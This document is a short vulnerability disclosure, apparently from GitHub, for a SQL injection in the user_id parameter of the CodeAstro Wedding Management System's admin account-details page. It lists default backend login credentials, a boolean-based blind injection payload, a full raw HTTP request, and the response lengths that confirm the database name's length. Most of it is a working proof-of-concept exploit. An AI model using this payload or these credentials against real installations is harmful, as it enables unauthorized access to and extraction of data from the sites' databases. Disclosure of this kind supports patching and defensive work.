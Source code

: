 # WeddingManagement System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=

Vulnerability location: /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=,user_id

[+] Payload: /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=31%20and%20length(database())%20=9 // Leak place ---> user_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/client_manage_account_details.php?booking_id=31&user_id=31%20and%20length(database())%20=9 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 15416

![image](https://user-images.githubusercontent.com/54017627/167992433-5601929b-6895-4246-87ea-f854977dc06a.png)

![image](https://user-images.githubusercontent.com/54017627/167992386-4f3a240f-ec5c-4794-92c3-1fcaddc55277.png)

When length (database ()) = 9, Content-Length: 15233

![image](https://user-images.githubusercontent.com/54017627/167992413-9a6054ba-38d7-4d48-aeab-a2c218c890ae.png)


![image](https://user-images.githubusercontent.com/54017627/167992369-29977d4b-a079-4420-86a5-f607a8135386.png)

